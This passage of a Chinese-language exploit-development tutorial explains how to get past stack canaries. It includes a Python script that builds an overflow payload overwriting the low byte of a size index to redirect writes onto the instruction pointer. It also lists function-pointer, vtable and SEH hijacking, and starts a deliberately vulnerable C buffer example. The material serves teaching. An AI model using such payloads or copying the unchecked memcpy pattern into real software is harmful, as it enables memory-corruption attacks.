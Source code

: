   
  
重点关注这一行：  
  

```
pBuf->data[ pBuf->nSize++ ] = *cpData++;
```

  
  
它看起来像一段普通的代码，将数据从一个内存逐字节复制到另一个内存。但事实并非如此，我的朋友。我们可以用一种非常阴险的方式滥用它，在不损坏金丝雀的情况下绕过它。让我进一步解释一下，这样你就能理解我的意思了。它会根据pBuf->nSize值执行缓冲区解引用，将指针指向的内存中的一个字节复制到该位置cpData，然后将这些值加一，以便在下一次迭代中移动下一个字节，并循环执行此操作，直到所有数据都移动完毕。  
  
这个变量告诉程序将数据写入何处，它在我们的控制之下。然而，我们无法有效地完全改变它。我们只能更改最低位字节，因为更改该字节会完全改变我们要写入的位置。这足以突破保护。我们可以让写入操作跳转到直接写入指令指针，而无需顺序写入，从而破坏金丝雀。  
  

```
#!/usr/bin/python3

import struct

with open(&#34;payload&#34;, &#34;wb&#34;) as f:
    f.write( b&#34;A&#34; * 64 ) # Fills the Buffer 
    f.write( b&#34;\x58&#34; ) # ( (unsigned char *) &Buffer->nSize )[0] ( LSB )
    f.write( struct.pack(&#34;<Q&#34;, 0x7fffffffdd70) ) # Instruction Pointer
    f.write( b&#34;\x90&#34; * 0x40 ) # Own Code ( NOPs )
```

  
  
让我们尝试一下这个漏洞，看看它是否能成功跳过金丝雀。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rWGOWg48taeYk9pbibPZ7GcMFkubQZibXrSWSzcDez7TpAib8gdnv05qwa4G7zN6IkQXPw99mwDgkBvY0iaPibGicfdQ/640?wx_fmt=png&from=appmsg "")  
  
如您所见，我们成功击败了金丝雀并覆盖了指令指针，从而使我们能够劫持程序的执行流程。  
  
抢占 Canary/Cookie 保护  
  
绕过此类保护的一种方法是，如果我们能够在金丝雀值验证发生之前以修改指令指针以外的方式劫持程序执行流，那么即使金丝雀值被破坏，我们也可以绕过它。有很多场景允许我们劫持执行流：  
1. 函数指针：如果我们可以控制其中一个函数指针，并且在金丝雀检查发生之前调用它，我们就可以绕过该保护。  
  
1. V-Table：这真是个魔法。它是一个表，用于保存特定对象的方法指针，用于支持 C++ 语言中的多态性，这样每个对象都能准确地知道其对应的方法，而不会与其父级的方法发生冲突。如果我们能够控制该表，我们就可以利用其中的任何方法执行我们自己的代码，而不会被金丝雀保护机制检测到。  
  
1. Windows SEH：SEH 代表结构化异常处理，这是微软为 C/C++ 语言开发的一项功能，用于处理特定的异常代码情况（例如硬件故障）。这些处理程序主要位于堆栈中。如果我们能够从这些处理程序触发异常，我们就可以利用它们来获取代码执行（在金丝雀验证之前）。  
  

```
#include<stdio.h>
#include<stdlib.h>
#include<string.h>
#include<stdbool.h>

typedefstruct _Buffer {
    char data[64];
    int nSize;
    void (*write)(struct _Buffer *, char *, size_t);
    void (*read)(struct _Buffer *);
} Buffer;

voidbuf_write(Buffer *pBuf, char *cpData, size_t n){
    memcpy( pBuf->data, cpData, n );
    pBuf->nSize += (int) n;
}

voidbuf_read(Buffer *pBuf){
    puts( &#34;Your Data :&#34; );
    printf( &#34;%s&#34;, pBuf->data );
};
```